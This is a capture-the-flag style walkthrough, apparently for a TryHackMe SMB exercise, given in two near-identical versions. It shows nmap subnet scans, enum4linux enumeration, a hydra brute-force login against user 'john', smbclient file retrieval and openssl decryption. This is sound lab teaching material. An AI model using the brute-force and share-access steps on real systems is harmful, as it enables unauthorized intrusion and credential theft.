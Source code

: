 # 3. SMB solutions

### Step-by-Step Solution Using Enum4Linux tryhackme

In this scenario, we will use **Enum4Linux** to identify a machine with the SMB service enabled in the `192.168.0.0/24` subnet, find the SMB credentials for a user named "john," and obtain a file named `ctf.txt` that contains a secret. Finally, we will use John's password to decrypt the file. Here’s how to do it step by step:

### Step 1: Identify Machines with SMB Service

1. **Scan the Subnet**: First, we need to identify machines in the subnet. You can use `nmap` to find live hosts:
    
    ```
    nmap -sn 192.168.0.0/24
    
    ```
    
    This command will ping all the devices in the subnet and list the active ones.
    
2. **Run Enum4Linux**: Once you have the IP addresses of the active machines, use Enum4Linux to gather information about SMB shares and users. Replace `<IP_ADDRESS>` with the actual IP address of the target machine:
    
    ```
    enum4linux -a <IP_ADDRESS>
    
    ```
    
    This command will provide detailed information about the SMB service, including user accounts, shares, and more.
    

### Step 2: Find SMB Credentials for User "john"

1. **Look for User Information**: In the output from Enum4Linux, look for the section that lists users. If "john" is listed, take note of any additional information that might help in guessing or cracking his password.
2. **Check for Shares**: Enum4Linux will also list available shares. Look for any shares that might be accessible to "john."
3. **Brute Force (if necessary)**: If you do not have the password for "john," you can use a tool like `hydra` to perform a brute-force attack on the SMB service:
    
    ```
    hydra -l john -P /path/to/password_list.txt smb://<IP_ADDRESS>
    
    ```
    
    This command attempts to log in as user "john" using passwords from the specified list.
    

### Step 3: Obtain the `ctf.txt` File

1. **Access the Share**: Once you have the correct credentials for "john," use `smbclient` to access the share where `ctf.txt` is located. For example:
    
    ```
    smbclient //<IP_ADDRESS>/share_name -U john
    
    ```
    
    Replace `share_name` with the actual name of the share you found earlier.
    
2. **Download the File**: After connecting to the share, you can download the `ctf.txt` file using the following command within the `smbclient` prompt:
    
    ```
    get ctf.txt
    
    ```
    

### Step 4: Decrypt the `ctf.txt` File

1. **Check the File Type**: First, check if `ctf.txt` is encrypted. You can use the `file` command to see what type of file it is:
    
    ```
    file ctf.txt
    
    ```
    
2. **Decrypt the File**: If the file is encrypted (for example, using AES), you will need to use the appropriate decryption tool. If you know the encryption method, you can use a command like:
    
    ```
    openssl enc -d -aes-256-cbc -in ctf.txt -out decrypted.txt -k <john's_password>
    
    ```
    
    Replace `<john's_password>` with the password you obtained for user "john."
    
3. **View the Decrypted File**: After decryption, you can open the `decrypted.txt` file to view the secret it contains:
    
    ```
    cat decrypted.txt
    
    ```
    

### Summary

By following these steps using Enum4Linux, you can successfully identify a machine with SMB enabled, find the credentials for user "john," obtain the `ctf.txt` file, and decrypt it using John's password. Always remember to conduct such activities ethically and with permission!

### Step-by-Step Solution to the Scenario

In this scenario, we need to identify a machine with the SMB service enabled in the `192.168.0.0/24` subnet, find the SMB credentials for a user named "john," and obtain a file named `ctf.txt` that contains a secret. Finally, we will use John's password to decrypt the file. Here’s how to do it step by step:

### Step 1: Identify Machines with SMB Service

1. **Scan the Subnet**: Use a tool like `nmap` to scan the subnet for machines with the SMB service enabled. Open your terminal and run the following command:
    
    ```
    nmap -p 445 --open 192.168.0.0/24
    
    ```
    
    This command scans for open port 445, which is used by SMB.
    
2. **Review the Results**: Look for IP addresses in the output that indicate an SMB service is running. Note down the IP address(es) of the machines found.

### Step 2: Find SMB Credentials for User "john"

1. **Attempt to Access SMB Shares**: Use the `smbclient` command to list the shares on the identified machine. Replace `<IP_ADDRESS>` with the actual IP address you found:
    
    ```
    smbclient -L //<IP_ADDRESS> -U john
    
    ```
    
    You may need to try common passwords or use a password list if you don't have the password for "john."
    
2. **Brute Force (if necessary)**: If you don’t have the password, you can use a tool like `hydra` to perform a brute-force attack on the SMB service:
    
    ```
    hydra -l john -P /path/to/password_list.txt smb://<IP_ADDRESS>
    
    ```
    
    This command attempts to log in as user "john" using passwords from the specified list.
    

### Step 3: Obtain the `ctf.txt` File

1. **Access the Share**: Once you have the correct credentials for "john," use `smbclient` to access the share where `ctf.txt` is located. For example:
    
    ```
    smbclient //<IP_ADDRESS>/share_name -U john
    
    ```
    
    Replace `share_name` with the actual name of the share you found earlier.
    
2. **Download the File**: After connecting to the share, you can download the `ctf.txt` file using the following command within the `smbclient` prompt:
    
    ```
    get ctf.txt
    
    ```
    

### Step 4: Decrypt the `ctf.txt` File

1. **Check the File Type**: First, check if `ctf.txt` is encrypted. You can use the `file` command to see what type of file it is:
    
    ```
    file ctf.txt
    
    ```
    
2. **Decrypt the File**: If the file is encrypted (for example, using AES), you will need to use the appropriate decryption tool. If you know the encryption method, you can use a command like:
    
    ```
    openssl enc -d -aes-256-cbc -in ctf.txt -out decrypted.txt -k <john's_password>
    
    ```
    
    Replace `<john's_password>` with the password you obtained for user "john."
    
3. **View the Decrypted File**: After decryption, you can open the `decrypted.txt` file to view the secret it contains:
    
    ```
    cat decrypted.txt
    
    ```
    

### Summary

By following these steps, you can successfully identify a machine with SMB enabled, find the credentials for user "john," obtain the `ctf.txt` file, and decrypt it using John's password. Always remember to conduct such activities ethically and with permission!